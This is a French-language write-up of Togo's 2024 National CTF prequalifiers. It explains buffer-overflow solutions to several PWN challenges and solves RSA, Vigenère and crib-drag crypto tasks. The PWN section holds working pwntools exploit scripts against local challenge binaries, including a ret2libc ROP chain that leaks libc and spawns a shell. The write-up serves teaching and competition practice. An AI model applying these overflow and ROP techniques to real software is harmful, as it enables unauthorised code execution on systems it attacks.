<h1> Prequals CTF National 2024 </h1>


J’ai participé récemment au CTF National du Togo sous le pseudo de `3ss0w7r30u` avec ma team `n0_m3rcy_f0r_th3m !!`. Voici un aperçu du SCOREBOARD à la fin du CTF :


Nous occupons donc ainsi la première place de cette phase de préqualification. La finale sera tout aussi palpitante !


Avant de commencer, je tiens à remercier avant tout toute mon équipe, qui ont travaillé d’arrache-pied pour qu’on puisse occuper la première place. Mes remerciements vont particulièrement à l’ANCY et à la CDA sans oublier les créateurs de challenges (`Isid0r3`, `Sergio`, `H13ris`, `assa` et `44r0n_M3T4`).

Je commencerai avec les challenges PWN qui m’ont particulièrement intéressé, je rappelle que j’ai fait un First Blood 🩸 ( Le premier à solve un challenge ) sur tous les challenges PWN qui ont été release. J’en suis particulièrement fier !

Voici la liste des challenges PWN qui ont été release :


#### PWN
- isSet
- isSet2
- ASLR
- JumpMe
- Baby_BoF

### Attention !

    Il s’agit d’un writeup, je ne tiens pas à faire un cours sur le PWN parce que je considère que c’est la compétence avec le plus de barrière à l’entrée parmi les types de challenges du format JEOPARDY, il se peut donc que certaines notions vous paraissent flou si vous n’avez pas le minimum requis. Si je devais expliquez chaque notion, je pense que j’écrirai un article de plusieurs pages et non un write-up.

Malheureusement toutes les instances ont été stoppés, donc les challenges seront résolus en local, je vais onc créer un fake flag qui sera : 

`FLAG{********FLAG-REDACTED********}`

Ce n'est pas le vrai flag des challenges car comme je l'ai dit, les instances ont été stoppés !

#### isSet [ First Blood 🩸] :

Le but principal d’un challenge PWN est d’exploiter des vulnérabilités liées à un binaire (exécutable) dans le but de détourner le programme de son but principal, et même obtenir un Shell distant.

La première des choses est de voir à quel type de binaire nous avons affaire, avant de commencer assurer vous d’avoir la bibliothèque pwntools d’installer. Pour ce writeups, je n’utiliserai pas de scripts pwntools autogénéré pour que le code soit compréhensible par les moins habitués aux challenges PWN.

Nous avons un fichier qui accompagne le challenge, nous le télechargerons et pour commencer, nous devons savoir à quel type de fichier nous avons à faire avec la commande file :



Il s'agit d'un ELF 64 bits ce qui influence la taille des adresses et le type d'instructions utilisées ( important pour la suite ), `dynamically linked` c'est à dire que que le programme utilise des bibliothèques dynamiques, qui ne sont pas intégrées dans le binaire mais chargées lors de son exécution et pour finir `not stipped`, en gros le binaire contient des symboles de débogage et des informations sur les fonctions et variables (par exemple, les noms de fonctions) ce qui facilite grandement son analyse !

Avant de poursuivre, comme je l'ai dit le pwn consisite à exploiter des failles dans les binaires pour atteindre un objectif particulier. Au cours des décenies, plusieurs protections appelées `mitigations` ont été mise en places pour éviter ces exploitations. Pour voir les protections appliquées à notre binaire, nous utiliserons l'outil `checksec`



On a deux protections actives :
- NX enabled : La stack n'est pas éxécutable
- PIE enabled : Les adresses des fonctions dans le binaire sont randomisés (changés) à chaque exécution

Essayons d'éxecuter le binaire pour voir comment il fonctionne :


D'abord, 
- On lui accorde les droits d'exécution
- Puis on passe à l'éxécution

Le programme, nous demande d'entrer une chaine et ensuite on a le texte : Pas de chance !

Mais on a pas assez d'informations sur le fonctionnement du programme, nous allons donc le décompiler, c'est à dire retrouver le code d'origine du binaire en utilisant l'outil `Ghidra` ( Vous pouvez utilisez les outils qui vous semble familier ) :

En observant la fonction main :



Nous observons du code écris en langage en C :

```c
undefined8 main(void)

{
  char local_3f8 [1000];
  long local_10;
  
  local_10 = 0;
  printf(&DAT_0010204c);
  gets(local_3f8);
  if (local_10 == 0x6465616462656566) {
    win();
  }
  else {
    printf("Pas de chance ! isset = 0x%lx\n",local_10);
  }
  return 0;
}
```
On remarque donc que :
- On a un buffer `local_3f8` avec une taille de 1000 bytes
- Ensuite une variable `local_10` initialisé à 0
- Un texte est affiché avec la fonction `printf` ( il s'agit du texte nous demandant d'entrer une chaine lorsqu'on éxecute le programme codé en dur ...)
- On récupère l'information avec la fonction `gets` dans le buffer `local_3f8` sans resteindre le nombre de caracrères que l'utilisateur peut entrer, ce qui s'avère très dangereux et peut permettre un buffer overflow !
- Ensuite il y'a une comparaison qui est faite entre la variable `local_10` et la valeur `0x6465616462656566`. Si la condition est respecté, la fonction `win` est appelé. Dans le cas contraire, le texte : `Pas de chance ! isset` est affiché.
- `win` signifie littéralement gagner, donc je suppose que c'est l'objectif du challenge, passez la condition pour atteindre la fonction `win`. Maiq eu contient la fonction `win` ? Utilisez Ghidra pour le trouver :

  

  Cliquez dessus comme la figure ci-dessus 

  

  Comme on peut l'observer la fonction `win` nous affiche le flag !

Quels sont les problèmes avec ce code ??
- D'abord, le fait qu'on ne limite pas l'entrée de l'utilisateur, ce qui cause un buffer overflow
- Ensuite que le check qui est fait avec la condition `if` n'a aucun sens !!! La varaible `local_10` est déclaré et initialisé à 0, nous n'avons donc aucun moyen logique de modifier sa valeur pour que la condition soit respecté. Nous sommes donc dans une impasse ! Si le check était fait avec la variable `local_3f8`, nous aurions pu passer la condition en éxécutant le programme et en entrant `0x6465616462656566`

Comment allons nous nous y prendre alors ?

- Nous allons exploiter la faille du buffer overlow comme décrite précedemment pour modifier la variable `local_10` en mémoire !

Pour ce faire, il faut comprendre l'alignement des vaiables dans la stack, je vous invite à ouvrir Ghidra pour que ce soit plus facile à comprendre :

Revenez à la fonction main


Observez à ce niveau, l'alignement des variables dans la stack !
Nous avons du bas vers le haut :


- `local_3f8`
- `local_10`

Je suis de bonne humeur, je vais vous faire une petite représentation pour votre compréhension :


Au début du programe, voilà comment les variables sont représentées,`local_3f8` est vide et `local_10` vaut 0. Notre but c'est de modifier la valeur de `local_10` pour qu'elle ait la veleur de `0x6465616462656566` pour ainsi réussir le check et accéder à la valeur win.

Lors que nous exécuter le programme et que nous entrons une chaine comme ceci :


Voilà à quoi ressemble la stack :


Ici, je n'ai entrée que 5 caractères A, n'oubliez pas que la varaible `local_3f8` peut contenir jusqu'à 1000 caractères. Notre but est donc de remplir  `local_3f8` pour déborder sur `local_10` pour entrer la valeur voulu. Bien sur ce n'est possible que parce qu'on une vulnérabilité de type buffer overflow qui est dûe au fait que le programme ne limite par l'entrée de l'utilisateur !

Si je veux par exemple modifier la valeur de `local_10` en `1111`, je vais devoir remplir `local_3f8` pour atteindre `local_10` et ensuite rentrer `1111`. Comme le montre cette figure :



Mais la question qui se pose, combien de `local_10` je vais devoir entrer ? 5 ? 10? 100 ? 1000 ? La vrai question quel est la taille qui sépare `local_3f8` de `local_10`.



Cette distance est encore appelé offset !

Pour la connaitre, reprennez cette image de Ghidra :


Zoomons : 


Il suffit de faire la différence entre `0x10` et `0x3f8`. Ce qui donne : 
- `0x3f8` - `0x10` = `1000`

Il faudra donc entrer `1000` fois le caractères `A` pour atteindre `local_10`. Une fois, il suffira d'entrer maintenant la valeur que l'on veut pour `local_10`. Dans notre cas cette valeur sera : `0x6465616462656566`.

Deux méthodes de résolution s'offrent à nous, écrire un script ou tout simplement, utilisez le terminal

- Utilisation du terminal Linux

  Nous allons utilisez python pour envoyez les 1000 caractères A pour atteindre `local_10` et ensuite écrire la valeur `0x6465616462656566` dans `local_10`. Une petite subtilité s'impose quand nous allons envoyer `0x6465616462656566`. Le système Linux fonctionne sur du little endian, donc la donnée doit etre envoyée sous ce format ( je vous invite à vous renseignez dessus ! )

  ```bash
  ┌──(pwn_tools)─(en2eavor㉿en2eavor)-[nationalCTF]
  └─$ python -c 'print("A"*1000 + "\x66\x65\x65\x62\x64\x61\x65\x64")' | ./isSet
  Entrez une chaîne : Bravo ! Vous avez appelé la fonction win() !
  FLAG{********FLAG-REDACTED********}
  ```

Voici donc le script de fin qui sera utilisé pour atteindre mon but :

```python
from pwn import *

target = process("./isSet")
#target = remote("playground.ctf.tg", 1237)

offset = 1000

'''
On laisse le programme s'executer jusqu'à 
qu'à la fin du message, "Entrez une chaîne : "

Ici je ne mets pas tout le texte à cause de la présence des accents
'''
target.recvuntil(b"ne : ")

'''
Je construis le payload, comme dit précedemment, je remplis la variable local_3f8 jusqu'à la variable local_10 puis je rentre la nouvelle valeur de local 10 que je veux, dans mon cas : 0x6465616462656566. J'utilise p64 ici car les instructions envoyés au système sont toujours en little endians ( googlez dessus !)
'''
payload = b"A"*offset
payload += p64(0x6465616462656566)

'''
Envoie du payload final
'''
target.sendline(payload)


target.interactive()

```

#### isSet2 [ First Blood 🩸] :

Si vous avez compris la résolution du challenge précedent, celui-ci devrait vous semblez facile ! Je vous invite à relire le writep précedent pour plus de compréhension

Une fois, le fichier du challenge télechargé, on éxécute les commandes basiques comme d'habitude :



Encore une fois : 
- Il s'agit d'un `ELF 64 bits` ce qui influence la taille des adresses et le type d'instructions utilisées
- `dynamically linked` comme dit précedemment, le programme utilise des bibliothèques dynamiques, qui ne sont pas intégrées dans le binaire mais chargées lors de son exécution
- `not stipped`, en gros le binaire contient des symboles de débogage et des informations sur les fonctions et variables (par exemple, les noms de fonctions) ce qui facilite grandement son analyse !


Executons le fichier pour voir comment il fonctionne :



Allons décompilons le binaire avec notre fameux logiciel `Ghidra` comme dans le writeup précedent, voyons de plus pès la fonction main :

```c
undefined8 main(void)

{
  char local_438 [1056];
  long local_18;
  long local_10;
  
  local_10 = 0;
  local_18 = 0x6465616463306465;
  printf(&DAT_0010204c);
  gets(local_438);
  if ((local_10 == 0x6465616462656566) && (local_18 != 0)) {
    win();
  }
  else {
    printf("Pas de chance ! isset = 0x%lx\n",local_10);
  }
  return 0;
}

```

Que fait le code ?

- Déclare un ensemble de variables dont le buffer `local_438` qui a une taille de `1056`
- Nous affiche du texte avec `printf`
- Récupère l'entrée de l'utilisateur avec `gets` mais sans limitation ce qui cause quoi ???? Voilà, vous avez trouvez, un `buffer overflow`
- Ensuite nous avons une condition `if` qui est vérifie si `loacal_10` est égale à la valeur `0x6465616462656566` et que `local_18` est différent de 0.
- Si le checking est valide, alors on accède à la fonction `win()`. Que contient cette fonction ? Vérifiez avec `Ghidra`

  ```c
  void win(void)

  {
    puts(&DAT_00102008);
    system("/usr/bin/cat flag.txt");
    return;
  }
  ```
  Elle lit le flag pour nous ! C'est donc notre objectf, atteindre cette fonction !

Par défaut nous savons avec le programme que `local_10` est initialisé à 0 dès le début du programe (`local_10 = 0;`) et que `local_10` quand à lui est initialisé à `0x6465616463306465` (`local_18 = 0x6465616463306465;`). 

Donc avec ceci seul une des conditions de la condition `if` est respecté, c'est à dire `local_18` différent de 0. Il faut maintenant que la variable `local_10` soit égale à `0x6465616462656566`.

Pour le faire nous allons procédez comme précedement, trouvez l'offset qui sépare `local_438` et `local_10` pour ensuite écrire la valeur voulue. (Exactement la meme méthode que le challenge `isSet`)

Ouvrons donc Ghidra pour calculer l'offset :



Il suffit de faire la différence entre `0x10` et `0x3f8`. Ce qui donne : 
- `0x438` - `0x10` = `1064`

Il faudra donc entrer `1064` fois le caractères `A` pour atteindre `local_10`. Une fois, il suffira d'entrer maintenant la valeur que l'on veut pour `local_10`. Dans notre cas cette valeur sera : `0x6465616462656566`.

```bash
┌──(en2eavor㉿en2eavor)-[/media/en2eavor/50c28130-290e-4b6e-897d-1e989bf6a7b6/nationalCTF]
└─$ python -c 'print("A"*1064 + "\x66\x65\x65\x62\x64\x61\x65\x64")' | ./isSet2 
Entrez une chaîne : Bravo ! Vous avez appelé la fonction win() !
FLAG{********FLAG-REDACTED********}
```
#### Baby_BoF [ First Blood 🩸] :

```python
from pwn import *


#target = remote("playground.ctf.tg", 1003)
target = process("Baby")

offset = 76
target.recvuntil(b"something: ")

payload =  b"A"*offset
payload += p64(0xdeadbeef) # value to overwrite

target.sendline(payload)

target.interactive()
```

Execution du script :

```bash
┌──(pwn_tools)─(en2eavor㉿en2eavor)-[/media/en2eavor/50c28130-290e-4b6e-897d-1e989bf6a7b6/nationalCTF]
└─$ python3 baby.py
[+] Starting local process './Baby': pid 14772
[*] Switching to interactive mode

you have correctly got the variable to the right value

Output: FLAG{********FLAG-REDACTED********}
```

#### JumpMe [ First Blood 🩸] :

Le seul à avoir résolu ce challenge !


```python
from pwn import *


target = process("./jump")

offset = 136
target.recvuntil(b"to go:")

ret = 0x000000000040101a # ret;
win = 0x00000000004011d6 # win address;

payload = b"A"*offset
payload += p64(ret)
payload += p64(win)

target.sendline(payload)
target.interactive()

```

Nous exécutons le script de résolution comme ceci :

```bash
┌──(pwn_tools)─(en2eavor㉿en2eavor)-[/media/en2eavor/50c28130-290e-4b6e-897d-1e989bf6a7b6/nationalCTF]
└─$ python3 jump.py
[+] Starting local process './jump': pid 14566
[*] Switching to interactive mode
 
Here is your flag: FLAG{********FLAG-REDACTED********}
[*] Got EOF while reading in interactive
$ 
```


#### ASLR [ First Blood 🩸] :

Ce challenge, j'ai été le seul à le solve, Le nom du challenge indique une protection assez connu dans le domaine du pwn que nous appelons l'ALSR. Au début du writeup, je vous ais parlé de certaines `mitigations` mis en place pour empecher l'exploitation des binaires.
En randomisant l'emplacement des segments de mémoire (comme la pile, le tas, les bibliothèques partagées, et les exécutables) à chaque exécution d'un programme, l'ASLR empêche un attaquant de prédire où se trouvent ces segments en mémoire.

Nous avons trois fichiers à notre disposition : 
- aslr : le fichier binaire lui meme 
- libc.so.6 : la libc utilisé par le binaire
- ld-2.35.so : linker dynamique qui a pour role de chargé les différentes bibliothèques partagées

Pour ne pas se préocuper de la version de la libc en remote, je vais donc patcher le binaire avec la libc. En utilisant `pwnint`

```bash
┌──(pwn_tools)─(en2eavor㉿en2eavor)-[/media/en2eavor/50c28130-290e-4b6e-897d-1e989bf6a7b6/nationalCTF]
└─$ ./pwninit --bin aslr --ld ld-2.35.so --libc libc.so.6
bin: aslr
libc: libc.so.6
ld: ld-2.35.so

copying aslr to aslr_patched

```

On a donc au final le file : `aslr_patched`

Nous le décompilons avec Ghidra pour mieux comprendre le fonctionnement du code :

Voici la fonction `main`, qui fait appelle à la fonction `overflow()`

```c
undefined8 main(void)

{
  overflow();
  return 0;
}
```

Voici un apercçu de la fonction `overflow()`

```c
void overflow(void)

{
  char local_108 [256];
  
  memset(local_108,0,0x100);
  puts("Hey, Tell me a story!?\n");
  fflush(stdout);
  read(0,local_108,0x1000);
  puts("The story says ");
  fflush(stdout);
  puts(local_108);
  return;
}
```

La fonction fonctionne comme suit :
- Un buffer de `256 bytes` est déclaré avec le nom `local_108`
- Affiche le texte : `Hey, Tell me a story!?` grâce à la fonction `puts`
- Lis notre entrée, mais en laissant l'utilisateur entrée 0x1000 caractères alors qu'on a un buffer de 256 bytes. Possibilité d'un bof
- Affiche le texte : `The story says` grâce à la fonction `puts`

En éxecutant un checksec sur le fichier binaire comme montré dans les précedents challs, remarquez que la protection NX est enabled ! Ce qui signifie qu'on ne peut pas juste éxecuter un shellcode. N'ayant pas de fonction éxecutant un shell pour nous, nous alons donc le faire nous meme en utilisant la technique du ROP chain.

Mais le challenge se nommant ALSR, les adresses mémoires des bibliothèques sont changés à chaque éxecution du binaire (J'ai expliqué plus haut c'était quoi l'ALSRz). L'une des bibliothèques qui nous interesse est la la libc ( la bibliothèque ou sont définies les fonctions en C). Cette bibliothèque contient la fonction `system` et la chaine `/bin/sh`, toutes deux nécessaires pour avoir un shell, plus précsiement avoir `system('/bin/sh')`.

`
Mais il y'a une propriété fondamentale à retenir !
Les offets entre les différentes fonctions d'une meme libc ne change JAMAIS
`
C'est à dire, si je prends la version `2.3` d'une libc par exemple et que l'écart entre la fonction `puts` et `system` est de `200` par exemple, peut importe le système sur lequel je serai et peu importe si l'ALSR est activé, l'écart (offset) entre ces deux fonctions restera toujours de `200` si j'ai la version `2.3` de la `libc`. C'est FONDAMENTALE.

Il nous faut donc ici dans notre cas, trouver la base de l'adresse de la libc, c'est sur cette base là que nous retrouverons les autres fonctions si nous connaisons leur offset. En gros, si je sais que l'écart entre la base de la libc et la fonction `system` est de `500` sur mon sytème actuel, il me suffira donc d'ajouter `500` à la base de la libc du sytème pour tomber sur la fonction `system` !

Si vous n'avez jamais fait du pwn, vous devez relire cette partie et faire des recherches pour mieux l'assimiler, comme je l'ai dit c'est un domaine assez difficile à appréhender !

.... Le writeup sera fini bientot, mais si dessous le script !!

```python

from pwn import *

target = process('./aslr_patched')
elf = context.binary = ELF('./aslr_patched', checksec=False)
libc = elf.libc

target.recvuntil(b"story!?")

offset = 264
pop_rdi = 0x000000000040125b # pop rdi; ret; 
ret = 0x0000000000401016 # ret; 

payload = b"A"*offset
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.sym['main'])


target.sendline(payload)

target.recvline()
target.recvline()
target.recvline()
target.recvline()

leak = unpack(target.recvline()[:6].ljust(8, b'\x00'))
info("Libc leak address : %#x", leak)
libc.address = leak - libc.sym['puts']
info("Libc base address : %#x", libc.address)


sh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym['system']

payload = b"A"*offset
payload += p64(pop_rdi)
payload += p64(sh)
payload += p64(ret)
payload += p64(system)


target.sendline(payload)

target.interactive()

```

Une éxécution du script nous donne un shell !

```bash
┌──(pwn_tools)─(en2eavor㉿en2eavor)-[/media/en2eavor/50c28130-290e-4b6e-897d-1e989bf6a7b6/nationalCTF]
└─$ python3 alsr.py
[+] Starting local process './aslr_patched': pid 14645
[*] '/media/en2eavor/50c28130-290e-4b6e-897d-1e989bf6a7b6/nationalCTF/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Libc leak address : 0x7f059d080ed0
[*] Libc base address : 0x7f059d000000
[*] Switching to interactive mode
Hey, Tell me a story!?

The story says 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaac[\x12@
$ whoami
en2eavor
$  
```

Une image de quand j'avais pwn le chall lors de la compétition :




#### CRYPTO
- Encryptionvi
- RSAvi
- CribDrag

#### Encryptionvi [ Second Solve ]

Ce challenge met à notre disposition deux fichiers :
- key-file.txt
- cipher-file.txt

Le contenu u fichier key-file.txt est :

```
n = 1000000016000000063 
e = 23
c = 471055156725181012
```

On voit bien que c'est du RSA, une petite décryption rapide avec l'outil `dcode` nous donne :



Le résultat n'est pas très bien imprimable en caractères ASCII, je choisis donc l'option `Texte clair (Nombre entier)` de `dcode`



Pour l'instant je décide donc de me concentrer sur le fichier d'encryption suivant :

```
JJFEMRKNKJFU4S2KIZLEKUZSJNEVUTCGJNKVUU2KJZCVMVKTGJLEOSSLKZKVKMSIJJFEIRKLKZFVIR2KJNKVKUSTJRFVUS2WJNGVGTKJGVGEKR2WKNGEUWSCKZCVEMSLJFJEGVSLKRJUYSSSIZLEKUJSK5FE4R2WI5KEWS2LJJCEKS2TJNJUUTSHIVLVOU2HJNNEIVSHKMZFASSGJJCUOVSTKBFVUQSWJFJVGU2JLJGEKS2VJJJUWNKGIVGVGS2VJFLEUVKXKNJUQS22IRKUWUZSKRFE4SSVKVKFGSKJKZGFMS2VGJEEUTSOIVGVMU2IJJLEUVSBKNJUOSSKINLE6VSTKRFEERSWJVJVGV2KIZFFMR2UGJFEYSSHIVFU2U2WJNHEGRKXK5JUKS22INLEKTKTLBFEKMSVK5JEWSCLJVNEKV2UINFUSTSDKVLVKWSTJNJEIVKVKNJVMS2WJNDEOU2DJJFVUR2GJVJUWVCMJJFFKVKSKNHUSVSEKZGVKMSJJJFEYRKVKZJUES2OJJKU6U2TINEU4S2VGZLFGVCLKJDFKRKSKNLUWVSJKZDVMMSLJFNEMRSLKYZFIR2KIZCVSU2TJBEVMRSVGJKTEV2JGVDEKV2SJNMEUWSGKVHVGS2WI5FEIRKPKZFFGS22IZCU2VCDIZGEMTCGI5JUGTCKKZHEKS2XJNKEWTSGKVJVIU2EJNLEYVSLK5JVISSOJRCUSVSLKZFU4SSWJVJVUVSKJJGEKT2WINGEUUSGKZKVEMSHJJLEWRKXKZBU2SSKIZDEWVSLKNFU4R2VKNLFGRKLLJDVMS2NKNHEUSSIIVDVMU2WJNFEUVSBKMZE6SSKJNKU6VJSKRFDKRSFGRITEVKJKZGEMR2WINFEUWSEIZFU4Q2TJNHEYRKTKZJUWSK2IRLEKUZSJRFEUTSFJVJFGTCLJFNEMT2TGJHUSVSLKZHVMU2LJNJEKVSVKJFVMR2KJNKEKVKTJNFEUQ2WJFJEWV2KJZFEKV2XKNDUSUSGKZDVCMSXJE2U4RKXKJBUMS2WIJKVOURSKZEFKNSUGJIEUNKIKU6T2PJ5HU6Q====
```

Avec l'outil cyberchef, je constate que le message a été plusieurs fois encodé en Base32, une fois décodé, j'obtiens ceci :
```
UCVP{ORTI_MZPH_LNEBCSAIQXZL_SA}
```

Au final j'ai donc :

```
UCVP{ORTI_MZPH_LNEBCSAIQXZL_SA}
```
et ceci,
```
104097099107101100
```

La première encryption me fait pensé au ROT, mais rien. Vu que j'ai une seconde clé, je pense au `XOR` et à `Vigenère`.

Toujours rien, mais en me penchant sur le vigénère, je sais que généralement la clé est généralement une suite de lettre. Et si, le `104097099107101100` était une forme d'encryption. J'utilise donc `dcode`, l'option, `reconnaitre un chiffrement`.



Il me propose de l'ASCII



Bingo ! J'ai le mot `hacked`
Essayons alors avec Vigenere :



Un sacré vénare le concepteur du challenge !


On obtient donc le flag : 

```
Flag : NCTF{KOMI_KPLE_ENCRYPTIONVI_LA}
```


#### RSAvi [ Second Solve ]

Nous avons un fichier `RSAvi-pub-key.txt` mis à notre disposition dont le contenu est :

```
n: 5028492424316659784848610571868499830635784588253436599431884204425304126574506051458282629520844349077718907065343861952658055912723193332988900049704385076586516440137002407618568563003151764276775720948938528351773075093802636408325577864234115127871390168096496816499360494036227508350983216047669122408034583867561383118909895952974973292619495653073541886055538702432092425858482003930575665792421982301721054750712657799039327522613062264704797422340254020326514065801221180376851065029216809710795296030568379075073865984532498070572310229403940699763425130520414160563102491810814915288755251220179858773367510455580835421154668619370583787024315600566549750956030977653030065606416521363336014610142446739352985652335981500656145027999377047563266566792989553932335258615049158885853966867137798471757467768769820421797075336546511982769835420524203920252434351263053140580327108189404503020910499228438500946012560331269890809392427093030932508389051070445428793625564099729529982492671019322403728879286539821165627370580739998221464217677185178817064155665872550466352067822943073454133105879256544996546945106521271564937390984619840428052621074566596529317714264401833493628083147272364024196348602285804117877
e: 65537
c: 910608573637151766592741646359139555904784321803428631903908521552777131951859943264846191932402055361498833375383031229982671149184931476945992913466889183135416918539956961820558514150083912697984734926228428443118777138784611695369848396345996684825978811495769794000028162328296106538834105679041143112167457232598415865376387117363685043296310893895276246811763099409354508200573619390090997964746798565329562050838200030630642311614753187518105030421307242611249224367001150700929649005704167426797306122940084457886648912809477865187453480840066041235665224721513474626323469389328348619076314546500324660002098406857368395712006506085979376605570852002827440581870285648568821111126184732646412744560252339729285745684255300564198233245551795520488002246541148191891638167766174343956597790791412271287103435898656125200311034726689604250470550962999602813441700239313471735088686090118193986040812649177699990431175510727928479609056957499981828555298181509942252598922669324311388997980627956686857171713789243776386582830964685489639326163726989990782553883048442851867799363438923802846660160105009546625127827041093314684740004973510575753396968680745019510035997596458456708393142128304479225924812035886211226
```

On remarque déjà qu'il s'agit de RSA, mais ici le problème c'est que `n` est trop grand, donc nous devons penser à le factoriser pour trouver `p` et `q`. Je vous conseille de lire un peu plus le fonctionnment de `RSA`.

Pour la factorisation, nous utiliserons le site de `factordb` :



Voici le résultat :



On peut voir ici que le site factordb, nous sort une liste de produits de facteurs premiers ( 64 en tout ! ). J'ai été vraiment coincé sur ce problème, mais après de nombreuses recherches, je me rends compte qu'il s'agit d'une vulnérabilité de RSA bien connue : 
```
L'algorithme RSA peut avoir plusieurs nombres premiers, mais cela affaiblit l'algorithme parce qu'ils peuvent être factorisés facilement !
```

Je tombe sur ce writeup avec un script assez compréhensif : 

<a href="https://github.com/Re-Adventures/CTF-Writeups/tree/master/RedPwn2020/4k-rsa"> Disponible ici  : Re-Adventures - RedPwn2020/4k-rsa </a>

Il suffit fonc de remplacer nos valeurs et Bingo !!

```python
def inverse(x, m):
  a, b, u = 0, m, 1
  while x > 0:
    q = b // x
    x, a, b, u = b % x, u, x, a - q * u
  if b == 1:
    return a % m
n = 5028492424316659784848610571868499830635784588253436599431884204425304126574506051458282629520844349077718907065343861952658055912723193332988900049704385076586516440137002407618568563003151764276775720948938528351773075093802636408325577864234115127871390168096496816499360494036227508350983216047669122408034583867561383118909895952974973292619495653073541886055538702432092425858482003930575665792421982301721054750712657799039327522613062264704797422340254020326514065801221180376851065029216809710795296030568379075073865984532498070572310229403940699763425130520414160563102491810814915288755251220179858773367510455580835421154668619370583787024315600566549750956030977653030065606416521363336014610142446739352985652335981500656145027999377047563266566792989553932335258615049158885853966867137798471757467768769820421797075336546511982769835420524203920252434351263053140580327108189404503020910499228438500946012560331269890809392427093030932508389051070445428793625564099729529982492671019322403728879286539821165627370580739998221464217677185178817064155665872550466352067822943073454133105879256544996546945106521271564937390984619840428052621074566596529317714264401833493628083147272364024196348602285804117877
c =  910608573637151766592741646359139555904784321803428631903908521552777131951859943264846191932402055361498833375383031229982671149184931476945992913466889183135416918539956961820558514150083912697984734926228428443118777138784611695369848396345996684825978811495769794000028162328296106538834105679041143112167457232598415865376387117363685043296310893895276246811763099409354508200573619390090997964746798565329562050838200030630642311614753187518105030421307242611249224367001150700929649005704167426797306122940084457886648912809477865187453480840066041235665224721513474626323469389328348619076314546500324660002098406857368395712006506085979376605570852002827440581870285648568821111126184732646412744560252339729285745684255300564198233245551795520488002246541148191891638167766174343956597790791412271287103435898656125200311034726689604250470550962999602813441700239313471735088686090118193986040812649177699990431175510727928479609056957499981828555298181509942252598922669324311388997980627956686857171713789243776386582830964685489639326163726989990782553883048442851867799363438923802846660160105009546625127827041093314684740004973510575753396968680745019510035997596458456708393142128304479225924812035886211226
e = 65537

factors = ['9353689450544968301', '9431486459129385713', '9563871376496945939', '9734621099746950389', '9736426554597289187', '10035211751896066517', '10040518276351167659', '10181432127731860643', '10207091564737615283', '10435329529687076341', '10498390163702844413', '10795203922067072869', '11172074163972443279', '11177660664692929397', '11485099149552071347', '11616532426455948319', '11964233629849590781', '11992188644420662609', '12084363952563914161', '12264277362666379411', '12284357139600907033', '12726850839407946047', '13115347801685269351', '13330028326583914849', '13447718068162387333', '13554661643603143669', '13558122110214876367', '13579057804448354623', '13716062103239551021', '13789440402687036193', '13856162412093479449', '13857614679626144761', '14296909550165083981', '14302754311314161101', '14636284106789671351', '14764546515788021591', '14893589315557698913', '15067220807972526163', '15241351646164982941', '15407706505172751449', '15524931816063806341', '15525253577632484267', '15549005882626828981', '15687871802768704433', '15720375559558820789', '15734713257994215871', '15742065469952258753', '15861836139507191959', '16136191597900016651', '16154675571631982029', '16175693991682950929', '16418126406213832189', '16568399117655835211', '16618761350345493811', '16663643217910267123', '16750888032920189263', '16796967566363355967', '16842398522466619901', '17472599467110501143', '17616950931512191043', '17825248785173311981', '18268960885156297373', '18311624754015021467', '18415126952549973977']
phi = 1
for p in factors:
  p = int(p)
  phi *= (p - 1)

d = inverse(e, phi)
M = bytes.fromhex(hex(pow(c, d,n))[2:]).decode()
print(M)
```

```
┌──(pwn_tools)─(en2eavor㉿en2eavor)-[/media/en2eavor/50c28130-290e-4b6e-897d-1e989bf6a7b6/nationalCTF]
└─$ python3 RSAvi.py                                                          
NCTF{DegnigbaN_f3_RSAvi_Yelo}
```

```
Flag : NCTF{DegnigbaN_f3_RSAvi_Yelo}
```

#### CribDrag [ First Blood 🩸]

Malheuresement, je n'ai plus les files du challenge, mais il s'agit d'un challenge CribDrag assez classique. Faites vos recherches dessus !

L'outil utilisé porte le meme nom : `cribdrag`



Quand bien meme, voici un screenshot de quand j'ai résolu le challenge !
